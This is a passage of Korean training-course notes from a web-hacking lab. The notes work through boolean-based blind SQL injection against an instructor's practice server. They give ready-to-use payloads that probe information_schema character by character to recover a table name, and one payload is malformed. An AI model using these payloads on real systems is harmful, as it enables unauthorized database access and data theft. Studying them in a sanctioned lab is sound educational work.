 # 10.22 Boolean-Based Blind Injection 실습, Time-Based Blind SQL Injection, Sqlmap, Directory Listing, FILE Download & Upload 취약점, SSL Attack

### Boolean-Based Blind Injection 실습(145p)

- 강사 Web Page에 접속하여 다음 조건에 해당하는 테이블의 레코드를 알아내시오 (레코드느 1개만 존재)
  - W로 시작하는 데이터베이스
  - K로 시작하는 테이블
  - 강사 Web Page 주소 : 200.200.200.205



#### DB -> WebTest

#### Table -> 5글자

1. 몇글자인지 알아보기

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),1,1)) = 0 #

 -> 로그인 실패
' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),2,1)) = 0 #

-> 로그인 실패

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),3,1)) = 0 #

-> 로그인 실패.
.
.

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1)6,1)) = 0 #

 -> 로그인 성공 -> 글자수 5자리

=> 6자리



2. 무슨 글자인지 알아보기



' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),1,1)) = 75 # -> K

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),2,1)) = 104 # -> h

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),3,1)) = 55 # -> 7

' or ascii(substr((select table_name from information_schema.tables where table_schema='WebTest' limit 0,1),4,1)) = 102 # -> f
